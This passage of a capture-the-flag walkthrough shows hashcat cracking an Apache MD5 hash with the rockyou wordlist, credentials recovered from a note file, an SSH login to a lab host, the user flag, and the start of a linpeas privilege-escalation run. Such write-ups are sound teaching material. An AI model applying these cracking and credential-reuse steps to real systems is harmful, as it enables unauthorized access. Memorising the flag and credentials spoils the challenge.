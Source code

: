 $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward           
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
Time.Started.....: Tue Dec 13 16:43:00 2022, (3 secs)
Time.Estimated...: Tue Dec 13 16:43:03 2022, (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    13428 H/s (6.92ms) @ Accel:512 Loops:62 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40977/14344385 (0.29%)
Rejected.........: 17/40977 (0.04%)
Restore.Point....: 38928/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1000
Candidate.Engine.: Device Generator
Candidates.#1....: thankyou1 -> lifesux1
Hardware.Mon.#1..: Temp: 46c Util: 98%

Started: Tue Dec 13 16:42:16 2022
Stopped: Tue Dec 13 16:43:04 2022

# So passphrase is:
squidward

# After extrcating of backup alex user's directory is appeared

# In documents folder file note.txt is found:
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3

# Trying this one for getting ssh connection
ssh alex@10.10.176.190

# User shell is pwned!
# User's flag:
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}

# Sending linpeass script via scp
# Starting linpeass

